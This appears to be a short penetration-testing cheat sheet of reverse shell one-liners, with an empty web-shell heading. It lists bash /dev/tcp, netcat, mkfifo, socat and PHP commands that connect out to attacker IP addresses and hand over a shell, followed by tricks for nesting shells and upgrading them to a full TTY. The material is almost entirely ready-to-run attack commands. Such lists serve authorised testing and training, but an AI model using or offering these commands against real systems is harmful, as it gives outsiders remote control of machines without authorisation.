 ## Web shells 

## Reverse shell commands  
    bash -i >& /dev/tcp/10.6.85.85/4444 0>&1
nc w/ -e (traditional):  

    nc -e /bin/sh 172.16.5.1 4242   
    
nc openbsd (no -e):    

    rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.6.85.85 53 >/tmp/f     
    
socat                     

    socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:<IP>:4444 
    
PHP            
    
    php -r '$sock=fsockopen("10.6.85.85",4444);exec("/bin/sh -i <&3 >&3 2>&3");' 
   
Also Ruby, Java and Python: Reverse shells cheat sheet    

Nesting shells      

  bash -p    /bin/sh -p 


Upgrading to a pseudo terminal / tty     

    python -c 'import pty;pty.spawn("/bin/bash")' 
    echo os.system('/bin/bash')
    /bin/sh -i
    vi -> :sh or :!UNIX_command
    perl —e 'exec "/bin/sh";'
    
    SHELL=/bin/bash script -q /dev/null        Ctrl-Z        stty raw -echo        fg    reset    xterm
